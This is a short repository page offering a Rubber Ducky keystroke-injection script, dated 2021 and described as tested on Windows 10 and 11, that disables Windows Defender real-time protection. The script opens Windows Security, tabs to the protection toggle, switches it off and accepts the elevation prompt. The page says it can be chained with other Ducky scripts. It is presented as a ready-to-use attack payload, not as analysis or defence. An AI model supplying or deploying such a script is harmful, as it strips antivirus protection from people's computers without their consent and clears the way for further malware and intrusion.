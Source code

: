 # A Payload That Will Disable Windows Defender

## This Code Was Tested On Windows 10 OS build 19043.1288 And Windows 11 OS build 22000.282 

### Date : 04-11-2021

Note : Older PC's May Require More Delay.

This Code Can Also Combined With Other Ducky Scripts.

```
REM Author : @krishnachaittanyah
REM This Script Will Disable Real Time Protection
REM *********************
REM We're going to disable Real Time Protection
REM *********************
DELAY 1000
GUI 
DELAY 500
STRING virus & threat protection
ENTER
DELAY 3000
TAB 
TAB
TAB
TAB
DELAY 200
ENTER
DELAY 200
SPACE 
DELAY 3000
ALT y
```